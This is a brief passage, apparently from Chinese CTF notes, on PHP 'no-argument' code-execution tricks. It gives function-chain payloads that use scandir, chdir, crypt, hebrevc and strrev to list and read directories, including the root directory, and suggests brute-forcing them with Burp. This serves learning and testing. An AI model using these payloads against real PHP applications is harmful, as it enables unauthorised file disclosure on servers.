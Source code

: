 `array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(current(localeconv()))))))))))))))))));`		建议配合burp爆破使用

![image-20230720180542945](daydayup.assets/image-20230720180542945.png)

### 查看和读取根目录文件

`hebrevc(crypt(arg))`或`crypt(arg)`所生成的字符串最后一个字符有几率是`/`，再用`strrev()`反转再获取第一位字符就有几率获得`/`（读根目录文件需要有权限）

`chr(ord(strrev(hebrevc(crypt(time())))))`
![image-20230720182030861](daydayup.assets/image-20230720182030861.png)
